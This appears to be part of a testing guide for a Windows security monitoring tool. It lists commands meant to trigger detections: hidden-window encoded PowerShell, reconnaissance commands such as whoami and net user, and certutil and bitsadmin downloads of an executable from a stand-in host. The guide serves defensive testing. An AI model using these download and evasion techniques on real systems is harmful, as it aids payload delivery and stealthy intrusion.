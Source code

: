 **Expected detection:** Process creation events with process name and parent process

### **Test 3: Service Events**

**What it detects:** Service start/stop events

**How to test:**

```powershell
# Run as Administrator:
Get-Service | Select-Object -First 10
sc query
```

**Expected detection:** Service-related events with service name and status

## 🦠 **Malware Detection Tests**

### **Test 1: PowerShell Malware Detection**

**What it detects:** Encoded PowerShell commands

**How to test:**

```powershell
# These are SAFE test commands:
powershell.exe -enc SGVsbG8gV29ybGQ=
powershell.exe -windowstyle hidden -enc SGVsbG8gV29ybGQ=
```

**Expected detection:** Encoded PowerShell execution with confidence score

### **Test 2: Command Injection Detection**

**What it detects:** Command injection patterns

**How to test:**

```cmd
# Open Command Prompt:
cmd.exe /c whoami
cmd.exe /c net user
cmd.exe /c dir
```

**Expected detection:** Command injection patterns with severity level

### **Test 3: File Download Detection**

**What it detects:** Suspicious file downloads

**How to test:**

```cmd
# Run as Administrator:
certutil.exe -urlcache -split -f http://example.com/test.exe
bitsadmin.exe /transfer test http://example.com/test.exe C:\temp\test.exe
```
